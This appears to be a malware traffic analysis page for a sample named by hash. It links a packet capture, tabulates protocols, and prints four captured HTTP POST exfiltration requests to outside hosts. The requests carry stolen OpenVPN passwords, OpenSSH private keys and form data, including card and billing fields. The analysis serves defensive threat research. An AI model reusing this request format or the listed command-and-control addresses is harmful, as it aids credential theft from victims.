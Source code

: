 ## PCAP
![Download]({{ site.url }}/attachments/91beb7c43da3dd723c9d44629ab656b4f913c5ec111d1d362279938645f7edd3.pcap) 

## Protocols
| Protocol | Number of Packets |
| ------ | ------ |
| TCP | 1218 |
| SSL | 623 |
| HTTP | 10 |

## Exfiltration
```
POST /tot773/DESKTOP-2C3IQHO_W10016299.4059EF9DC2CA46AD60D2E0765459BD36/81/ HTTP/1.1 Accept: */* Content-Type: multipart/form-data; boundary=---------KNFVSHSAHHJUPYKX User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E; Tablet PC 2.0; .NET CLR 2.0.50727; .NET CLR 3.0.30729; .NET CLR 3.5.30729) Host: 194.5.249.157:443 Content-Length: 219 Connection: Close Cache-Control: no-cache -----------KNFVSHSAHHJUPYKX Content-Disposition: form-data; name="data" -----------KNFVSHSAHHJUPYKX Content-Disposition: form-data; name="source" OpenVPN passwords and configs -----------KNFVSHSAHHJUPYKX--
```

```
POST /tot773/DESKTOP-2C3IQHO_W10016299.4059EF9DC2CA46AD60D2E0765459BD36/83/ HTTP/1.1 Accept: */* Content-Type: multipart/form-data; boundary=---------OCPLLBXQPEACMBMT User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E; Tablet PC 2.0; .NET CLR 2.0.50727; .NET CLR 3.0.30729; .NET CLR 3.5.30729) Host: 194.5.249.157:443 Content-Length: 473 Connection: Close Cache-Control: no-cache -----------OCPLLBXQPEACMBMT Content-Disposition: form-data; name="formdata" {"descr":["NordVPN"],"dns1":["103.86.99.100"],"email":["USERNAME"],"q":["microsoft office"],"search":["91beb7c43da3dd723c9d44629ab656b4f913c5ec111d1d362279938645f7edd3"],"usernamefld":["admin"]}-----------OCPLLBXQPEACMBMT Content-Disposition: form-data; name="billinfo" {]}-----------OCPLLBXQPEACMBMT Content-Disposition: form-data; name="cardinfo" {]} -----------OCPLLBXQPEACMBMT--
```

```
POST /tot773/DESKTOP-2C3IQHO_W10016299.4059EF9DC2CA46AD60D2E0765459BD36/81/ HTTP/1.1 Accept: */* Content-Type: multipart/form-data; boundary=---------IMJCMDOMDOMKUGNM User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E; Tablet PC 2.0; .NET CLR 2.0.50727; .NET CLR 3.0.30729; .NET CLR 3.5.30729) Host: 96.9.73.73 Content-Length: 219 Connection: Close Cache-Control: no-cache -----------IMJCMDOMDOMKUGNM Content-Disposition: form-data; name="data" -----------IMJCMDOMDOMKUGNM Content-Disposition: form-data; name="source" OpenVPN passwords and configs -----------IMJCMDOMDOMKUGNM--
```

```
POST /tot773/DESKTOP-2C3IQHO_W10016299.4059EF9DC2CA46AD60D2E0765459BD36/81/ HTTP/1.1 Accept: */* Content-Type: multipart/form-data; boundary=---------OTTNHTNLBMUSVCXD User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E; Tablet PC 2.0; .NET CLR 2.0.50727; .NET CLR 3.0.30729; .NET CLR 3.5.30729) Host: 194.5.249.157:443 Content-Length: 210 Connection: Close Cache-Control: no-cache -----------OTTNHTNLBMUSVCXD Content-Disposition: form-data; name="data" -----------OTTNHTNLBMUSVCXD Content-Disposition: form-data; name="source" OpenSSH private keys -----------OTTNHTNLBMUSVCXD--
```
